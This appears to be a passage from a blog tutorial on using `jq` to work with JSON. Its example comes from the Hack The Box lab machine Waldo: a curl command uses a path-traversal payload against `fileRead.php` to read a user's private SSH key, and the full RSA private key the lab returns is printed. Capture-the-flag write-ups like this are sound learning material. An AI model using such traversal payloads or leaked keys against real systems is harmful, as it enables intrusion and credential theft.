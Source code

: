           "name": "Suzanne Hart"
        },
        {                           <-- second object in this "infractions" array
          "status": "closed",
          "severity": 4,
          "title": "Aggravated pulling of hair",
          "coals": [
            1,
            1,
            1,
            1
          ],
          "date": "2017-02-02T12:13:51",
          "name": "Nina Fitzgerald"



The nested nature of json data gives it the potential to get very messy.
You can certainly use something like python and `import json` to work
with json data, but there are times you just need to manipulate the data
without writing a script. `jq` to the rescue.

## Example from Waldo

### Background

In [Waldo from Hackthebox](/htb-waldo.md), I had to abuse a
path vulnerability in a php app to read outside of webroot and fetch a
private ssh key. The data that comes back is in json. To get the private
key in Waldo, I can use curl (`-s` to suppress output, `-X POST` to
post, `-d` for the data, and the url of `fileRead.php`):



    root@kali# curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php
    {"file":"-----BEGIN RSA PRIVATE KEY-----\nMIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl\nmR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f\n87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS\ndGCc\/gNpW\/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN\no8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8\/6pceowqs9ujRkNzH9T1lJq4Fx1V\nvi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl\/wdmuPEW6kU\nvmzhRU3gcjuzwBET0TNejbL\/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR\/6\npKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5\n8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q\n1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox\/05qoOBL4kQxUM7\nVxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS\ndVa3yLECgYEA7jk51MvUGSIFF6GkXsNb\/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO\nv0og0X\/iROXAcp6Z9WGpIc6FhVgJd\/4bNlTR+A\/lWQwFt1b6l03xdsyaIyIWi9xr\nxsb2sLNWP56A\/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY\nqFfdAWrvVZjp26Yf\/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI\nyzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1\n\/pAcw\/+\/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw\/IMnLa3drm3CIAa32iU\nLRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ\/\nlnN2n1WyTIyEuGA\/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp\nw7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9\n1HLmBkDTjjj\/xAJAZuiOF4Rs\/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT\nrj1BhUCzZCUgQABtpC6vYj\/HLLlzpiC05AIEhDdvToPK\/0WuY64fds0VccAYmMDr\nX\/PlAoGAS6UhbCm5TWZhtL\/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2\nDvVny8gKbM\/OenwHnTlwRTEj5qdeAM40oj\/mwCDc6kpV1lJXrW2R5mCH9zgbNFla\nW0iKCBUAm5xZgU\/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=\n-----END RSA PRIVATE KEY-----\n"}
